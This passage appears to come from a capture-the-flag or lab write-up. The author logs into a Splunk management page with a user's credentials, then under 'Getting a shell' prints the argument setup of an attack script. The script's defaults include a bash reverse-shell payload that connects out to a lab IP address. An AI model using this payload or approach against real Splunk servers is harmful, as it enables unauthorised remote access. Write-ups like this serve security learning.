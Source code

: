 ![](/assets/img/6-splunk-login.png)

Was able to use `shaun`'s credentials to log into `/services` page on the Splunk site.

### Getting a shell

```python
parser = argparse.ArgumentParser()
parser.add_argument('--scheme', default="https")
parser.add_argument('--host', required=True)
parser.add_argument('--port', default=8089)
parser.add_argument('--lhost', required=True)
parser.add_argument('--lport', default=8181)
parser.add_argument('--username', default="admin")
parser.add_argument('--password', default="changeme")
parser.add_argument('--payload', default="bash -c 'bash -i >& /dev/tcp/10.10.15.13/8092 0>&1'")
parser.add_argument('--payload-file', default="payload.sh")
options = parser.parse_args()
```
